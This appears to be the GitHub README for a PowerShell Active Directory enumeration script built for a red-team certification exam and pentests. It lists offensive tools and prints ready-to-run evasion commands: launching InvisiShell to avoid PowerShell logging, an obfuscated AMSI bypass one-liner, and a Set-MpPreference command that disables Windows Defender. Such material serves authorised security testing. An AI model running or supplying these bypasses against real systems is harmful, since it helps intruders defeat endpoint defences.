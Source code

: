 # ADRedTeamEnumScript

This AD Red Team Enumeration Script is used to query a lot of aspects of your target Forest. The script will save all output from each enumeration task into a folder separating out the output files into appropriate folders for analyze later. This script saved me a lot of time on the enumeration portion for the [Pentester Academy CRTE](https://www.pentesteracademy.com/redteamlab) exam. Will be extremely useful for any traditional AD pentesting engagement. The script contains more information within it to help you enumerate discovered resources further, so ensure you read the commented out portions! 

This script is also designed to run other popular scripts and modules intended to get the most information out of your target AD Domain. You should look into their project to understand the full capabilities of the tools besides the small task performed within this script.

* [Microsoft AD Module (Powershell)](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2019-ps)
* [Invishell](https://github.com/OmerYa/InvisiShell)
* [ADACLScan](https://github.com/canix1/ADACLScanner)
* [Find-PSServiceAccounts](https://github.com/PyroTek3/PowerShell-AD-Recon)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
* [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
* [Rubeus](https://github.com/GhostPack/Rubeus/releases/tag/1.6.4)

## Usage

Not necessary to be an admin to run the script, but of course easier to get around most security features, heres a few tips that will help prevent the script from being blocked:

### Bypassing PowerShell Security

**To avoid verbose PowerShell logging - use [invishell](https://github.com/OmerYa/InvisiShell) (RunWithRegistryNonAdmin)**

```C:\PATH\TO\SCRIPTS\InviShell\RunWithRegistryNonAdmin.bat```

**AntiMalware Scan Interface (AMSI) may detect some tools when you load them. Uses the following AMSI bypass:**

```sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )```

**Stop Windows Defender (need to be admin)**

```Set-MpPreference -DisableRealTimeMonitoring $true```
                             
After which you can run the script to enumerate your target. Now we can run the script on the vitim system that in joined to your target AD domain.

1. Download the repo and rename folder as 'scripts' or whatever you choose, but you'll need to modify the ADRedTeamEnumScripts.ps1, ComputersUsersGroups.ps1, DomainInfoTrusts.ps1, DCEnum.ps1 and GPOInfo.ps1 scripts in order for everything to work correctly. This repo includes the modules and scripts you need already inside the `bin` folder.

Want to do it manually:

1. Download all the scripts/tools mention above.

2. Store them in a folder called `bin`, inside another folder called `scripts`. 

3. Add the enumeration scripts inside the folder `scripts`. As shown below:

![ADredTeamEnumScript2](https://user-images.githubusercontent.com/20993128/129828201-8302ade2-9926-4c7b-ab9f-6433b997bd09.png)

4. Drop the `scripts` folder to `c:\temp`

5. Now run the main script:

```.\ADRedTeamEnumScripts.ps1```

![ADredTeamEnumScript](https://user-images.githubusercontent.com/20993128/129833747-e374d821-c878-4129-8895-8c3e98e239d2.png)

## Author
- [@n3t1nv4d3](https://twitter.com/n3t1nv4d3) author and researcher (https://github.com/n3t1nv4d3).
- Sources for other scripts used are linked to their names up above, thanks to your work I was able to create my personalize enum script. 
